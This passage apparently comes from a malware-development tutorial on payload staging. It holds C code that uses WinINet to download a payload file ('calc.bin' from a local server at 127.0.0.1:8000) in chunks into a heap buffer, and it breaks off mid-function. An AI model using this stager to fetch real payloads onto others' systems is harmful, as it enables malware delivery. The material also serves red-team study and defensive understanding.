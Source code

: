 One way to solve this issue is by placing `InternetReadFile` inside a while loop and continuously reading a constant value of bytes, which for this example will be `1024` bytes. The bytes are stored directly in a temporary buffer which will be of the same size, `1024`. The temporary buffer will be appended to the total bytes buffer which will continuously be reallocated to fit each newly read `1024` byte chunk. Once `InternetReadFile` reads a value that is less than `1024` then that's the indicator that it has reached the end of the file and will break out of the loop.

### Payload Staging With Dynamic Allocation - Code Snippet

```c
BOOL GetPayloadFromUrl() {

	HINTERNET	hInternet              = NULL,
			    hInternetFile          = NULL;
	
	DWORD		dwBytesRead            = NULL;
  
	SIZE_T		sSize                   = NULL; // Used as the total payload size
	
	PBYTE		pBytes                  = NULL; // Used as the total payload heap buffer
	PBYTE		pTmpBytes               = NULL; // Used as the temp buffer of size 1024 bytes

	// Opening an internet session handle
	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Opening a handle to the payload's URL
	hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocating 1024 bytes to the temp buffer
	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL) {
		return FALSE;
	}

	while (TRUE) {

		// Reading 1024 bytes to the temp buffer
		// InternetReadFile will read less bytes in case the final chunk is less than 1024 bytes
		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Updating the size of the total buffer 
		sSize += dwBytesRead;

		// In case the total buffer is not allocated yet
		// then allocate it equal to the size of the bytes read since it may be less than 1024 bytes
		if (pBytes == NULL)
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			// Otherwise, reallocate the pBytes to equal to the total size, sSize.
			// This is required in order to fit the whole payload
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
```